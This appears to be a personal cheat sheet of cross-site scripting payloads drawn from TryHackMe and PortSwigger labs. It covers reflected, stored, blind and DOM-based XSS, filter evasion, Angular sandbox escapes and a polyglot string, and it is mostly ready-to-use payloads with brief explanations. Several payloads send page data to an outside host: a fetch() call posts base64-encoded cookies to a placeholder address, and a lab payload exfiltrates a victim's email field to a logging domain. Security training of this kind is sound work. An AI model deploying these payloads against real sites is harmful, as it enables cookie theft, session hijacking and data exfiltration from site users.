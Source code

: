 # Cross-site Scripting

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

http://www.xss-payloads.com/










## Reflected XSS
The server-side application processes data from a request and echoes the data in the response. 

User-supplied data in an HTTP request is included in the webpage source without any validation.
The JavaScript is executed because it is in the HTTP response

Only affects the person making the web request.


`<script>alert(window.location.hostname)</script>`
`<script>alert(“Hello World”)</script>`
`</textarea><script>alert('THM');</script>`


```
// from "https://tryhackme.com/r/room/thatstheticket"
</textarea>
<script>
var i = new Image(); i.src="//TEST.1ba665d99ad23c9ad4b5a119f3a86aef.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML;
</script>

</textarea>
<script>
var email = (document.getElementById('email').innerHTML).replace("@","-at-");
var my_address = "1ba665d99ad23c9ad4b5a119f3a86aef.log.tryhackme.tech";
var request = new XMLHttpRequest();
request.open("GET","http://" + email + "-musyoka-" + my_address, false); // with second parameter as 'true'(async) also works
request.send();
</script>
```



`<script>alert(document.cookies)</script>`
`<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>`

`/images/cat.jpg" onload="alert('THM');`

`"onmouseover="alert(1)` Example:
<input type="text" placeholder="Search the blog..." name="search"
value="[PAYLOAD HERE]">









### Avoid Filters
`<sscriptcript>alert('THM');</sscriptcript>`


Search:
`\"-alert(1)}//`












## Stored XSS
Is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

Example: post comments stored in a database.

### Blind XSS
Is similar to a stored XSS (which we covered in task 4) in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.


Tool: <https://github.com/mandatoryprogrammer/xsshunter-express>


Examples:
`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`



anchor href attribute
<a href="javascript:alert(1)">








## DOM-based XSS
When JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as `eval()` or `innerHTML`.

The most common source for DOM XSS is the URL, which is typically accessed with the `window.location` object.

The "sinks" manipulate the DOM, and then the DOM causes the JavaScript to execute.

- document.write
`"><svg onload=alert(1)>`
`fooBar" onload="alert(1)`

- innerHTML sink using source location.search
`<img src=1 onerror=alert(1)>`
`<img src='0' onerror=alert(1)>`


### DOM XSS in jQuery anchor href attribute sink using `location.search`
```
<a id="backLink" href="/">Back</a>
<script>
	$(function() {
		$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
	});
</script>
```

original: https://example.path/feedback?returnPath=/
modified: https://example.path/feedback?returnPath=javascript:alert(document.cookie)



### escape javaScript
`';alert('THM');//`



### Angular
`{{$on.constructor('alert(1)')()}}`
`{{$eval.constructor('alert(1)')()}}`
`{{$resume.constructor('alert(1)')()}}`
- The constructor data property of an Object instance returns a reference to the constructor function that created the instance object. <https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor>

Explanation:
`Function('console.log("Hello World")')(); // anonymous function made using the Function constructor`

```
function test() {
	console.log('Hello World');
}

console.log(test.constructor); // returns "Hello World"

let mySecondFunction = test.constructor('console.log("Hello World 2!")');
mySecondFunction(); // returns "Hello World 2!"
```


















## Polyglots
An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
